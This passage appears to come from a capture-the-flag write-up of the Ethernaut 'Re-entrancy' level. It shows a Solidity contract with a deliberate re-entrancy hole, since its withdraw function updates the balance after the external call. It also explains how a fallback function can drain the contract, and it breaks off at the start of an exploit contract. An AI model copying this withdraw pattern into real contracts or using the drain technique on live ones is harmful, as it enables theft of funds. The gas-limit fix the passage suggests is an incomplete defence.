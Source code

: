 
# <a name="reentrancy"></a> 10. Re-entrancy
\[[top](#top)\]

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

To complete this challenge, we have to steal all the ether present in the contract's account. The bug is in the "withdraw" function. Even though, it checks whether the withdraw amount is greater then the balance, the state i.e balance after withdraw, is only updated after sending the ether by making an "external call". To see why this is dangerous, remember that we can implement "fallback" functions which will be called when data field is empty or it doesn't match any function signature. So, when the challenge contract sends ether, if receiving account is not a externally owned account, then that account has the ability to transfer the execution to any other contract or just finish and return to the challenge contract. if the "fallback" function just returns without doing anything then everything works as intended but if "fallback" function calls "withdraw" function again, as the balance is not yet updated, it will result in the transfer of ether using "call" to the same contract. recursively, we can steal all the ether present in the challenge contract. Note that, "call" transfers all the available gas when not set explicitly and this attack could be prevented by sending particular amount of gas not enough for re-entrancy.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Reentrance {
  
  function donate(address _to) external payable;
  function balanceOf(address _who) external view returns (uint balance);
  function withdraw(uint _amount) external;
  receive() external payable;
}

contract ReentranceExploit {
```